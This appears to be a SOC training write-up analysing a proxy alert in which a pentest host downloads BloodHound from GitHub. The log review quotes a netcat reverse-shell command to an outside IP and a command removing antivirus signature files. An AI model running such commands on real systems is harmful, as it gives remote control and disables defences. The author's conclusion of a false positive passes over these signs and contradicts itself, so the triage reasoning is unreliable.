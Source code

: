 # SOC119 - Proxy - Malicious Executable File Detected

We received a Medium alert for a malicious executable file detection. 

> **EventID:** 79
> 
> **Event Time:** Mar, 15, 2021, 09:30 PM
> 
> **Rule:** SOC119 - Proxy - Malicious Executable File Detected
> 
> **Level:** Security Analyst
> 
> **Source Address:** 172.16.20.5
> 
> **Source Hostname:** PentestMachine
> 
> **Destination Address:** 140.82.121.4
> 
> **Destination Hostname:** github.com
> 
> **Username:** kali
> 
> **Request URL:** https://github.com/BloodHoundAD/BloodHound/releases
> 
> **User Agent:** Penetration Test - Do not Contain
> 
> **Device Action:** Allowed

## Analysis
We're going to give into the source address some to see if the destination host was contacted. 

![Screenshot 2023-02-17 at 8 24 32 AM](https://user-images.githubusercontent.com/74877876/219664377-e6dda9c2-31cf-4c78-b25b-9b3f0bb67241.png)

We can see it was on March 15, 2021 at 9:30pm which is the time and date of the alert. Let's look at the connection details.

![Screenshot 2023-02-17 at 8 25 55 AM](https://user-images.githubusercontent.com/74877876/219664676-1ed2ccb0-c2ae-45f4-8a44-58a9b2e63f8d.png)

https://github.com/BloodHoundAD/BloodHound/releases was accessed it looks like. 

We're going to look more at the source machine, any details we can find on that file or March 15, 2021. Looks like the source address, 172.16.20.5, is in fact the source hostname, PentestMachine.

No browser log. 

Command log: 13.06.2021 16:23 nmap -sV -sP 172.16.20.0/24

Network connections:
- 13.06.2021 16:23:01 - 172.16.20.1
- 13.06.2021 16:23:06 - 172.16.20.2
- 13.06.2021 16:23:13 - 172.16.20.3
- 13.06.2021 16:23:15 - 172.16.20.4
- 13.06.2021 16:23:19 - 172.16.20.6

The only processes that appear to be suspicious don't have a date. 
- nc 101.32.223.119 1234 -e /bin/sh - transfers the bash code to detected malicious Hong Kong domain using netcat.
- rm -f /var/lib/clamav-unofficial-sigs/pid/clamav-unofficial-sigs.pid - looks like Linux AV and it's signatures were removed. 
- A SQL database was accessed.

![Screenshot 2023-02-17 at 9 19 59 AM](https://user-images.githubusercontent.com/74877876/219680134-b389f0b0-a18e-4d99-8e36-c26cba644f3a.png)

The other processes, I don't find suspicious. They pulled another operating system and run it on VMware on the device. The processes I find suspicious I'm going to determine as malicious but the other processes aren't. 

The host machine is an Ubuntu machine so we know it's not an executable file that was accessed, but we're going to continue to analyze the file. 

**VirusTotal:** 
- Looking at https://github.com/BloodHoundAD/BloodHound/releases doesn't show any malicious detections. 
- Looking at 140.82.121.4 doesn't show any detections but shows the address is based in Denmark and connected to GitHub.
- While there lots of files 140.82.121.4 communicated with BloodHound's GitHub doesn't appear to be one of them. 

Since I'm familiar with GitHub, I looked up BloodHound's GitHub and was able to find the releases page. The URL does match the requested URL.

Let's look at BloodHound's GitHub is about.

![Screenshot 2023-02-17 at 9 11 28 AM](https://user-images.githubusercontent.com/74877876/219678260-90aba689-2db1-4569-b967-5dcf1ef96a08.png)

It definitely seems like their content is for pentesting. 

## Determination
Determining to be false positive since the file was accessed according to the logs but used for pentesting. The file and the logs are suspicious based on the processes performed but looking into the intent of BloodHound's GitHub, the file was used for pentesting.  

While suspicious and the file malicious, it was used for pentesting.

## Helpful Link
- GitHub: https://github.com/BloodHoundAD/BloodHound
- VirusTotal: https://www.virustotal.com/gui/home/upload 
